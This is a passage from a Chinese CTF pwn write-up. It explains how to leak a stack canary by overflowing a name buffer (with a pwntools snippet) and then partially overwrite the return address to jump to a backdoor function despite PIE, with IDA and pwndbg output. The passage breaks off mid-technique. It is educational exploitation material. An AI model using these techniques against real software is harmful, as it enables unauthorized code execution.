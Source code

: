 程序有留有后门 sub_A3E  。

#### 思路

泄露 libc 地址的话，就需要将栈上最近的 libc 地址前的 \x00 覆盖掉。而最近的 libc 地址（__libc_start_main+240）需要覆盖 0x58 ，显然溢出长度不够。

所以选择控制 rip 跳转到后门函数。程序开启了 PIE 和 Canary 栈溢出保护，首先是泄露出 canary 值，然后再次栈溢出控制 rip 跳转。

##### leak canary

sub_960 栈结构在 ida 中分析如下：

```
0000000000000030 name            xmmword ?
-0000000000000020 var_20          xmmword ?
-0000000000000010                 db ? ; undefined
-000000000000000F                 db ? ; undefined
-000000000000000E                 db ? ; undefined
-000000000000000D                 db ? ; undefined
-000000000000000C                 db ? ; undefined
-000000000000000B                 db ? ; undefined
-000000000000000A                 db ? ; undefined
-0000000000000009                 db ? ; undefined
-0000000000000008 var_8           dq ?
+0000000000000000  s              db 8 dup(?)
+0000000000000008  r              db 8 dup(?)
```

在第一个输入 name 时，可以写入 0x29 字节，输出名字时会将 canary 也一起输出。 

```python
payload = 'a'*(0x30-0x8+1)

p.recvuntil("Name:\n")
p.send(payload)
p.recvuntil('a'*(0x30-0x8+1))
canary = u64(p.recv(7).rjust(8,'\x00'))
log.info("canary:"+hex(canary))
```

##### partial overwrite

虽然程序开启了 PIE ，但是由于低 12 位的页内偏移是固定的，也就 ida 中能看到的部分，这条题就是低三位。

后门函数的地址为：0xA3E。由于输入的时候是一个字节，也就是 0x3E 这样输入，但是第 4 个数字是随机的，所以我们需要找一个**跳转 text 段**、**第三位是 A **的rip 进行覆盖。

我们写入 name 的函数运行结束后会返回 main 函数，main 函数在 text 段(（0x555555554a3e）：

```shell
pwndbg> 
0x0000555555554a3d in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────[ REGISTERS ]──────────────────────────────────
 RAX  0x0
 RBX  0x0
 RCX  0x0
 RDX  0x60
 RDI  0x0
 RSI  0x7fffffffdc80 ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
 R8   0x7ffff7fdd700 ◂— 0x7ffff7fdd700
 R9   0x3e
 R10  0x36
 R11  0x346
 R12  0x555555554830 ◂— xor    ebp, ebp
 R13  0x7fffffffddb0 ◂— 0x1
 R14  0x0
 R15  0x0
 RBP  0xdeadbeef
```